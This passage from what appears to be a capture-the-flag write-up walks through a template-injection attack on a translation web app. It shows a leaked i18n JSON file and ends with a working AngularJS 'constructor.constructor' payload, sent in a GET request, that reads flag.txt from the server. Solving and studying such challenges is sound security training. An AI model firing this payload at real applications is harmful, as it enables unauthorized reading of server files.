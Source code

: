 Argh! We were so close! But let’s take a look at the previous code – we’re now in the template directory but trying to call a file from under `i18n`. So we should prepend `i18n/` to the directory name. 

```json
[
	"$SCOPE",
	"{\n \"lang\": \"en\",\n \"translate\": \"Translate\",\n \"not_found\": \"I don't know that word, sorry.\",\n \"in_lang_query_is_spelled\": \"In french, &lt;b&gt;\{\{userQuery}}&lt;/b&gt; is spelled &lt;b ng-bind=\\\"i18n.word(userQuery)\\\"&gt;&lt;/b&gt;.\",\n \"input_query\": \"What French word do you want to translate into English?&lt;br/&gt;A few examples: &lt;a href=\\\"?query=informatique%20en%20nuage&amp;amp;lang=en\\\"&gt;informatique en nuage&lt;/a&gt;, &lt;a href=\\\"?query=téléverser&amp;amp;lang=en\\\"&gt;téléverser&lt;/a&gt;\",\n \"title\": \"Translation utility for technical terms in French and English\",\n \"subtitle\": \"In the current pluri-polarized great powers context, internationalization is the key for good trans-border understanding between tech workers.\",\n \"informatique en nuage\": \"cloud computing\",\n \"mot-dièse\": \"hashtag\",\n \"courriel\": \"email\",\n \"téléverser\": \"upload\",\n \"ordiphone\": \"smartphone\",\n \"original_word\": \"Word to translate\"\n}\n"
	]

```

We’ve got the page that shows the English translation! Now that we can enumerate any file, it is time to go for the flag.

`GET /add?lang=en&word=input_query&translated=\{\{[constructor.constructor('return+global')().angular%3dthis,constructor.constructor('return+global.angular.$parent.i18n.template("./flag.txt")')()]+|+json}}`


![flag](../assets/google-ctf-quals-2018/translate-flag.png)

And we've got the flag! 

**Final Payload:** `\{\{[constructor.constructor('return+global')().angular%3dthis,constructor.constructor('return+global.angular.$parent.i18n.template("./flag.txt")')()]+|+json}}`

<details><summary>FLAG</summary></details>

---
